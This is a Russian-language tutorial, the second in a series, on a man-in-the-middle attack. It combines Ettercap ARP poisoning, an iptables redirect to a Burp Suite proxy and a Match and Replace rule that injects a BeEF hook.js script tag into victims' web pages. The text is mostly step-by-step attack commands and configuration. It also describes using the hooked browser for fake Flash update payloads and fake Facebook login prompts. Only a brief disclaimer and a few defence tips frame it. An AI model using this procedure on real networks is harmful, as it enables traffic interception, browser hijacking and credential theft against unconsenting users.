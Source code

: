 <h1>(Ettercap, Burp Suite, BeEF). MITM. Часть 2. Использование Burp Suite в атаках MITM. Подцепление на BeEF.</h1>

<b>Материал предоставлен в ознакомительных и образовательных целях.</b><br>

<b><i>Содержание</i></b><br>
<a href="#introduction">1. Введение. Требования.</a><br>
<a href="#introtoxss">2. Понятие XSS.</a><br>
<a href="#prepare">3. Подготовка среды.</a><br>
<a href="#ettercap">4. Запускаем Ettercap.</a><br>
<a href="#burpsuite">5. Запускаем Burp Suite.</a><br>
<a href="#beef">5. Запускаем BeEF.</a><br>
<a href="#configureburpsuite">6. Продолжаем конфигурировать Burp Suite.</a><br>
<a href="#example">7. Работа с BeEF.</a><br>
<a href="#end">8. Подведение итогов. Рекомендации по защите. Полезные ссылки.</a><br>

<p><a name="introduction"></a></p>
<h2>Введение. Требования.</h2>
Рад приветствовать читателей. В этой статье мы разберем использование утилиты Burp Suite для атаки MITM. Вообще, данная утилита предназначена для тестирования веб-приложений (к которым мы вернемся позже), но ее можно использовать также много еще для чего. Как уже ранее было сказано, будет использовать в атаке MITM.<br><br>
<i>Если вы не читали первую статью про MITM, обязательно прочитайте ее перед этой. Там рассмотрены понятия атаки MITM и использование утилит Bettercap и net-creds.</i><br><br>


Требования:
<ul>
  <li>Иметь доступ к сети, в которой находится цель</li>
</ul>
<i>Примечание: </i> если у вас уже есть доступ к сети, вам не нужен Wi-Fi адаптер с поддержкой режима 
мониторинга. Главное быть просто подключенным к сети.


<p><a name="introtoxss"></a></p>
<h2>Понятие XSS.</h2>
XSS (Cross Site Scripting, получил аббревиатуру XSS, а не CSS, для избежания путаницы с CSS в HTML) - атака, которая заключается в том, чтобы запустить вредносный JavaScript на стороне пользователя. <br>
Уязвимости XSS делятся на три типа:
<ul>
  <li>
    <b>Stored XSS</b><br>
    &nbsp;&nbsp;&nbsp;Пример: на доске объявлений в поле имя ввел &lt;script&gt;alert('Stored XSS')&lt;/script&gt; и теперь каждый раз, когда кто-то заходит на страницу его профиля, он видит на экране сообщение 'Stored XSS'
  </li>
  
  <li>
    <b>Reflected XSS</b><br>
    &nbsp;&nbsp;&nbsp;Пример: http://myunsafewebsite.com/store/product.php?id=&lt;script&gt;alert('ReflectedXSS')&lt;/script&gt;
  </li>
  
  <li>
    <b>DOM-Based XSS</b><br>
    &nbsp;&nbsp;&nbsp;Пример: http://myunsafewebsite.com/arictle/25/text.html#&lt;script&gt;alert('DOM-BasedXSS')&lt;/script&gt;
  </li>
</ul><br>
Приведенная выше информация на данный момент нам не особо будет нужна, т.к. безопасность веб-приложений у нас еще не скоро. Для общего развития, можно сказать.


<p><a name="prepare"></a></p>
<h2>Подготовка среды.</h2>
Чтобы было удобнее:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo su</pre>

Установите BeEF:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">apt update && apt install beef-xss</pre>

<p><a name="ettercap"></a></p>
<h2>Запускаем Ettercap.</h2>
Включите форвард пакетов:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">echo "1" > /proc/sys/net/ipv4/ip_forward</pre>

Запустите Ettercap:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">ettercap -G</pre>

<ul>
  <li>Когда откроется окно Ettercap, выберите интерфейс, который хотите использовать и нажмите ОК.</li>
  <li>Нажмите на кнопку Show hosts (у нее иконка сервера)</li>
  <li>Нажмите на лупу для того, чтобы начать поиск хостов (если нужного не появилось, попробуйте еще раз, иногда приходится трижды нажимать)</li>
  <li>Выберите IP-адрес роутера как цель 1</li>
  <li>Выберите IP-адрес атакуемого как цель 2</li>
  <li>Нажмите на меню MITM</li>
  <li>Выберите ARP Poisoning, убедитесь, что стоит галочка Sniff remote connections и нажмите ОК</li>
</ul>

(в другом терминале) 
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo su</pre>
Чтобы перенаправлять данные с порта 80 на 8080:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080</pre>


<p><a name="burpsuite"></a></p>
<h2>Запускаем Burp Suite.</h2>

Запустите Burp Suite.
<ul>
  <li>
    Во вкладке Proxy перейдите в подраздел Options
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;В разделе Proxy Listeners нажмите кнопку Add
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В поле Bind to port укажите порт 8080
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В списке выберите Specific address и в выпадающем меню выберите IP-адрес, который начинается на 192.168.0/1.
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В списке выберите Specific address и в выпадающем меню выберите IP-адрес, который начинается на 192.168.0/1.
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Во вкладке Request Handling поставьте галочку “Support invisible proxying”
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Нажмите ОК
  </li>
  <li>
    Во вкладке Proxy перейдите в подраздел Intercept
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;Нажмите на Intercept is ON для того, чтобы выключить перехват и перевести кнопку в положение Intercept is OFF
  </li>
</ul>


<p><a name="beef"></a></p>
<h2>Запускаем BeEF.</h2>
Запускаем BeEF:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo beef-xss</pre>
При первом запуске потребует задать логин и пароль. Пароль должен отличаться от beef. Этот логин/пароль потребуется для входа в веб-интерфейс BeEF.


<p><a name="configureburpsuite"></a></p>
<h2>Продолжаем конфигурировать Burp Suite.</h2>
<ul>
  <li>Во вкладке Proxy перейдите в подраздел Options</li>
  <li>&nbsp;&nbsp;&nbsp;&nbsp;Крутите вниз, пока не найдете Match and Replace</li>
  <li>&nbsp;&nbsp;&nbsp;&nbsp;В этом разделе нажмите кнопку Add</li>
  <li>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Ставим тип Response body</li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В поле Match: вписывайте
    <pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">&lt;\/head&gt;</pre>
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В поле Replace вписывайте:
    <pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">&lt;script src=”192.168.0/1.x:3000/hook.js”&gt;&lt;/script&gt;&lt;/head&gt;</pre>
    где 192.168.0/1.x - ваш IP-адрес
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Поставьте галочку “Regex Match”
  </li>
</ul>

Ждите, пока атакуемый откроет страницу http://. Если вам нужно внедрять этот скрипт и на страницы https://, то единственный вариант - использовать Ettercap с модулем SSLStrip (который работает криво). Вариант использовать Bettercap вместо Ettercap - не вариант, т.к. Bettercap занимает порт 8080, хотя вы можете попробовать указать в Burp Suite другой порт и в iptables - также другой, не тестировал.


<p><a name="beef"></a></p>
<h2>Работа с BeEF.</h2>
BeEF позволяет практически управлять браузером, когда открыта вкладка со скриптом. Можно показать фейковое уведомление об обновлении Flash Player, куда указать исполняемый файл с полезной нагрузкой, показать окно авторизации в Facebook (истекла сессия, введите логин/пароль), после чего он попадет вам в консоль и т.д.

<i>Пример использования в работе...</i>


<p><a name="end"></a></p>
<h2>Подведение итогов. Рекомендации по защите. Полезные ссылки.</h2>
<h3>Полезные ссылки.</h3>
<ul>
  <li><a href="https://cisoclub.ru/rukovodstvo-po-osushhestvleniyu-cross-site-scripting-xss/" target="_blank">Hackware: руководство по осуществлению XSS атаки</a></li>
  <li><a href="https://ru.wikipedia.org/wiki/Межсайтовый_скриптинг" target="_blank">Википедия: межсайтовый скриптинг</a></li>
  <li><a href="https://hackware.ru/?p=784&PageSpeed=noscript" target="_blank">Базовое использование BeEF</a></li>
</ul>

<h3>Рекомендации по защите.</h3>
<ul>
  <li>Не использовать открытые сети Wi-Fi</li>
  <li>Поддерживать безопасность личной сети Wi-Fi, иначе будет равноценна открытой сети</li>
  <li>Использовать расширение NoScript (<a href="https://chrome.google.com/webstore/detail/noscript/doojmbjmlfjjnbmnoijecmcbfeoakpjm" target="_blank">Chrome Web Store</a> | <a href="https://addons.mozilla.org/en-US/firefox/addon/noscript/" target="_blank">Firefox Browser Add-ons</a>)</li>
</ul>

Итак, мы познакомились с подцеплением на BeEF при помощи Burp Suite.<br><br>
<a href="../index">Назад к списку статей...</a>
